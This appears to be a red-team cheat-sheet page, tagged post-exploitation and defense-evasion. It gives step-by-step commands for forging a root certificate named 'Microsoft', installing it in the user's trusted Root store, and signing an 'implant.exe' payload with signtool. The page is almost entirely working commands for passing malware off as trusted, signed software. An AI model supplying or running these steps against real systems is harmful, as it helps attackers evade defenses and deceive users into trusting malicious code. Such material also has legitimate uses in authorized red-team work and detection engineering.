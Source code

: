 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - T1553-002
  - windows
---
```

# Sysinternals

Generate a authority certificate `CertUtil.exe`.

```
C:\> makecert.exe -r -pe -n "CN=Microsoft" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MicrosoftCA.pvk MicrosoftCA.cer
```

Then install the root certificate

```
C:\> CertUtil.exe -user -addstore Root MicrosoftCA.cer

PS C:\> Import-Certificate -FilePath MicrosoftCA.cer -CertStoreLocation Cert:\CurrentUser\Root\
```

Create `.pfx` from the certificate.

```
C:\> makecert.exe -pe -n "CN=Microsoft Cert" -a sha256 -cy end -sky signature -ic MicrosoftCA.cer -iv MicrosoftCA.pvk -sv MicrosoftCert.pvk MicrosoftCert.cer

C:\> pvk2pfx.exe -pvk MicrosoftCert.pvk -spc MicrosoftCert.cer -pfx MicrosoftCert.pfx
```

Sign the binary implant with a certificate.

> [!INFO]
> You can run this in `wine` through Linux.

```
C:\> signtool.exe sign /v /f MicrosoftCert.pfx /t http://timestamp.digicert.com/?alg=sha1 implant.exe

C:\> signtool.exe sign /fd sha256 /a /tr http://timestamp.digicert.com <payload_name>
```

---
## References

### Github

- [LazySign](https://github.com/jfmaes/LazySign)

### Microsoft

- [Microsoft: Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/)